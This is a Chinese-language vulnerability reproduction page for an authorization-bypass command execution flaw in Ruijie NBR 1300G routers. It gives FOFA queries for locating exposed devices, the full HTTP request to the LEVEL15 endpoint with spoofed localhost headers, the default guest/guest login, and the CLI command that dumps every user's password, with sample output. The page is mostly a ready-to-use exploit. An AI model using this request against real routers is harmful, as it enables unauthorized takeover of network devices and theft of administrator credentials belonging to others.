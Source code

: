 # 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器</a-checkbox></br>

## FOFA

<a-checkbox checked>title="锐捷网络 --NBR路由器--登录界面"</a-checkbox></br>

<a-checkbox checked>app="Ruijie-NBR路由器"	</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-35.png)



查看流量发现 CLI命令流量



![img](../../../.vuepress/public/img/ruijie-36.png)



请求包为



```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```



测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）



登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码



![img](../../../.vuepress/public/img/ruijie-37.png)



成功获取所有用户的账号密码



```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```



## 